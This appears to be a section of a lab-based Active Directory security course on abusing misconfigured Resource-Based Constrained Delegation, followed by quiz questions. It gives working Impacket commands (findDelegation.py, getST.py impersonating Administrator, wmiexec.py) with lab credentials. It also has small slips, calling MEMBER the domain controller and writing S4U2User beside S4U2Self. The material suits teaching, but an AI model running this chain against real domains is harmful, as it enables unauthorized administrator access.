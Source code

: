 # RBCD Abuse
We've seen how both unconstrained and constrained delegation can be abused in this guide. Misconfigured Resource-Based Constrained Delegation can also be abused. Misconfigurations include allowing a low-privileged user to hold delegation rights to sensitive services, much like what happens in the Constrained Delegation Abuse section.

Let's take a look at which delegation rights are set in the domain, and see if some low-privileged user can delegate tickets to sensitive services:
```
findDelegation.py NORTH.ALTAIR.LOCAL/skyler.white:Password123 -target-domain north.altair.local
```

We see that saul.goodman can delegate tickets to any service hosted by MEMBER. This means that the user can impersonate any other user while accessing this server, through means of the S4U2User and S4U2Proxy extensions. Fortunately for us, we've been able to retrieve this user's credentials from its own user account description attribute that the user forgot to delete. Now, we can use Saul's credentials and access the MEMBER CIFS service as the administrator, for example, compromising the MEMBER machine.

```
#retrieve a ticket for the CIFS service in member as the administrator
getST.py -spn 'CIFS/member' -impersonate Administrator -dc-ip '192.168.122.10' 'north.altair.local/saul.goodman:beTTer2caLL2me'
#set the krb5ccname environment var to the new ccache file
export KRB5CCNAME=/home/ubuntu/Administrator.ccache
#use the ticket to access the domain controller through a shell as the administrator
wmiexec.py -k -no-pass north.altair.local/administrator@member
#now you've gained access to the MEMBER machine and can execute commands through the CIFS service
whoami
```

!!! question 
    What is the risk of misconfigured RBCD?
??? success "Answer"
     If a low-privileged account is granted delegation rights to a sensitive machine, it can abuse Kerberos extensions (S4U2Self + S4U2Proxy) to impersonate any user, including domain administrators, when authenticating to that machine, and access any service. This effectively lets the attacker gain privileged access without needing the admin’s password or hash.
!!! question
    Which is the most granular type of delegation between Constrained and RBCD?
??? success "Answer"
    Constrained delegation is more granular, since in CD, an administrator determines to which specific services a service can delegate tickets to. In RBCD, a service account defines which other accounts can delegate tickets to it. The service account may host many different services, and RBCD allows delegation to any of these, while CD would only allow delegation to specific services.